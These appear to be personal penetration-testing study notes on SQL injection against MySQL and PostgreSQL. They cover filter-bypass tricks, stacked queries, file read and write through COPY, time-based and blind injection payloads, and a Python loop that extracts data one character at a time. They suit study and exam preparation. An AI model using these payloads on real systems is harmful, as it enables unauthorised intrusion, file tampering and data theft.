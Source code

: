 # SQL Commands

# MySQL

- xx

### Filtered Characters

In some databases, special characters like `'` are HTML encoded before being sent to database. For MySQL, we can use ASCII characters in their hexadecimal notation. For instance,`0x206840783072` is converted to `h@x0r`.

## Exploitation

- MySQL has the functionality SELECT INTO OUTFILE, which potentially can give us file write functionality, to write a shell into the web-root.

# PostgreSQL

- Get version number: `select version()`
- List all databases: `\l`
- Access/switch to database: `\c <database>`
- List all tables: `\dt`
- Describe all tables: `\d`
- Stacked commands: `;`
- Ignore rest of line: `--` (or `--+` for URL encoded)

### Logging

To enable logging on PostgreSQL database, we edit its configuration file found atm `.\pgsql\data\amdb\postgresql.conf` .

```java
log_statement = 'all'			# none, ddl, mod, all
Remember to remove the # in front of the statement. 
```

After enabling that line, launch services.msc and restart the application service. 

### SQLi

For PostgreSQL, we can use **stacked queries** to perform SQLi. This means that we can use the `;` character to separate a new command to inject. 

If we have database admin, we can also use the `COPY TO` statement to write to a file to gain SYSTEM access. 

```sql
COPY SELECT($$AWAE$$) TO $$C:\Users\Public\offsec.txt$$
```

We can also read files by loading the contents of a file into a table and then reading that table. 

```sql
CREATE temp table read_file(content text);
COPY read_file FROM $$C:\Users\Public\offsec.txt$$;
SELECT * FROM read_file;
DROP TABLE read_file;
```

### Database Admin Privilege

```sql
SELECT current_setting('is_superuser');
SELECT CASE WHEN (SELECT current_setting($$is_superuser$$))=$$on$$ THEN pg_sleep(10) END;
```

### Filtered Characters

When characters like `'` are HTML encoded, we can use CHR() representation to bypass this restriction. However, this only works for simple statements like SELECT and INSERT (`SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);`)and not more complex statements like `COPY TO`. 

Instead, we can use `$$` to demarcate the start and end of the string instead. This works with any native PostgreSQL functions that CHR may be unable to work with. Alternatively, `$TAG$` also works as string marker. 

## SQL Injections

### Blind SQL Injection Methodology

For blind SQL injections (time or boolean-based), we can exfiltrate data character by character. This can be done by using a case statement that checks against a substring. 

```sql
-- MySQL:
"test')/**/or/**/(ascii(substring((select/**/CURRENT_USER()),<num>,1)))=<inj>%23"

-- Postgres:
select case when substring(cast(loid as varchar),1,1)=$$8$$ then pg_sleep(3) else pg_sleep(0) end from pg_largeobject limit 1
```

We can then iterate against a set character list (or more narrow lists of specific character types like integers or letters). 

```python
ascii_list = list(range(48,57)) + list(range(97, 123)) + list(range(32,48)) + list(range(57,64)) + list(range(90,97)) + list(range(123,127)) + list(range(64,90))
# List of characters in (rough) order of frequency
# Numbers, small letters, punctuation, big letters (from 32 to 127)

output = "" # If we already have stuff, can start output with value and change starting i
for i in range(1,100):
    new_character = False
    for c in ascii_list: # ASCII letters, numbers and punctuation
        query_string = f"test')/**/or/**/(ascii(substring(({inj}),{i},1)))={c}%23"
        res = searchFriends_sqli(ip, query_string)
        # print(f"Checking {chr(c)}: {query_string} -- {res}")
        if res == True:
            new_character = True
            output += chr(c)
            print(f"Success, adding {chr(c)} -- {output}")
            break
    if not new_character:
        print("No possible characters, breaking now!")
        break
print(f"Extracted data: {output}")
return output
```

### Time-Based SQL Injection

Time-based SQL injections involve using the total time elapsed by a POST request. The following code provides the runtime of the POST request:

```python
r = s.post(target,data=data,headers=headers,verify=False)
# Return total runtime
return r.elapsed.total_seconds()
```

For Postgres, time-based SQL injections can be done using the `pg_sleep()` function. For MySQL, time-based SQLi can be done using the `sleep()` function.